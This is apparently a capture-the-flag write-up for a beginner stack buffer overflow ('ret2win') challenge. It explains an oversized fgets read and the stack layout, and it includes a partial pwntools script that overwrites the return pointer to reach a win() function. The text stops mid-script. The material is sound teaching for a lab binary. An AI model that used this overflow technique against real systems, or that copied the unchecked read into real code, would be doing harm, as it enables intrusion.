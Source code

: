 This is a short C program, let's take a closer look at what each part of the code is trying to do.

We can immediately see that there is a `win()` function, which prints "Good job :)" and then calls `system("cat flag.txt")`, so this is the function we are supposed to reach. Hence, this is a ret2win challenge.

In the main function, we see a `char name[0x10]` being declared, which essentially is declaring a variable of type `char`, of name `name`, and of size `0x10`. Keep in mind that `0x10` is NOT `10`! `0x10` is in _hexadecimal_, which means that it is base 16 and not base 10.

We can ignore the `setbuf()` lines.

This part of the code asks for a user input, and takes it in with `fgets()`.
```c
printf("Is this stack overflow?\n");
printf("Enter username:\n");
fgets(name, 0x20, stdin);
printf("Access denied >:(\n");
```

However, recalling that the variable `name` is of size `0x10`, but `fgets()` is reading `0x20` characters into `name`, we can see that this is a buffer overflow challenge.

The layout of the stack at this point looks something like this:
```
┌──────────────────────┐
│      name[0x10]      │
├──────────────────────┤
│      $rbp[0x08]      │
├──────────────────────┤
│ return pointer[0x08] │
└──────────────────────┘
```

The return pointer is actually represented (specifically, in Intel x86_64) as $rip, which stands for Instruction Pointer.

So with this knowledge in mind, we know that the first `0x10` bytes will fill up `name`, the next `0x8` bytes will overwrite (i.e. "fill up") `$rbp`, and the last `0x8` bytes will overwrite the `$rip` (return pointer).

Hence, our target payload should be something like: `0x10` (i.e. 16) bytes to fill up `name`, followed by `0x8` (i.e. 8) bytes to fill up `$rbp`, and the last `0x8` (i.e. 8) bytes to overwrite `$rip`.

If we make use of pwntools, the script would look something like this:
```py
from pwn import *

# Start process
p = process("./full_buffer_developer")
# You would use something like
# p = remote("some.providedwebsite.org", port_number)
# replacing the website with the one we provided,
# and port_number similarly with the one we provided

# constructing the payload
pad = b'a'*0x10     # to fill up "name"
rbp = b'b'*8        # to fill up the rbp
win = p64(0x4011CD) # to overwrite rip with the address of win()

payload = pad+rbp+win # form the payload!

# Easy buffer overflow
p.sendlineafter(b':', payload)
# recv until "flag{", because this is when we
# know for sure we are receiving the flag
p.recvuntil("flag{")
# receive the rest of the flag and append
```